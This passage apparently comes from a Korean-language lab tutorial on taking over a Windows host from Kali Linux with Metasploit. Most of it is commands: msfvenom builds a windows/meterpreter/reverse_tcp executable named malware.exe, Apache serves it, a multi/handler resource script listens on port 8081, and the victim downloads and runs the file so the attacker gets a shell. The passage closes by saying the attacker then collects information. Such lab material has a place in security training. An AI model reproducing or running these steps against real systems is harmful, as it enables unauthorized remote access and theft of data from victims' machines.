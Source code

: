 세션 리스트 : sessions -l <br>
첫번째 세션 선택 : sessions -i 1 <br>
shell 접속 : shell

![11](https://user-images.githubusercontent.com/59737252/164982401-9b8c441f-44bc-4389-a9dc-81ad9274721e.png)

<br>

---

### 두번째 방법

> Kali에서 진행한다.

```shell
kali# cd ~/Desktop
kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.57.10 LPORT=8081 -f exe > malware.exe
kali# /etc/init.d/apache2 start
kali# mv malware.exe /var/www/meterp_192.168.57.10_8081.exe
kali# vim handler_meterpreter_reverse_8081.rc
```

<br>

> handler_meterpreter_reverse_8081.rc

```vim
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.57.10
set lport 8081
set EXITONSESSION FALSE
exploit -j -z
```

<br>

스크립트 파일을 생성했으니, msfconsole을 이용하여 스크립트 파일을 실행하여 준다.

```shell
kali# msfconsole -r handler_meterpreter_reverse_8081.rc
```

윈도우에서 해당 경로로 접속하여 다운로드한다.

http://192.168.57.10/meterp_192.168.57.10_8081.exe -> 바탕화면 Save -> 실행

![12](https://user-images.githubusercontent.com/59737252/164983089-f483a7c8-550b-4d6c-90cc-66789d2c9bd9.png)

<br>

윈도우에서 malware를 실행하게 되면, 칼리리눅스에 윈도우의 세션이 저장된다.

![13](https://user-images.githubusercontent.com/59737252/164983342-a73b3756-b481-4607-9d69-749a3f846a48.png)

<br>

shell을 획득 후 정보들을 획득하면 끝

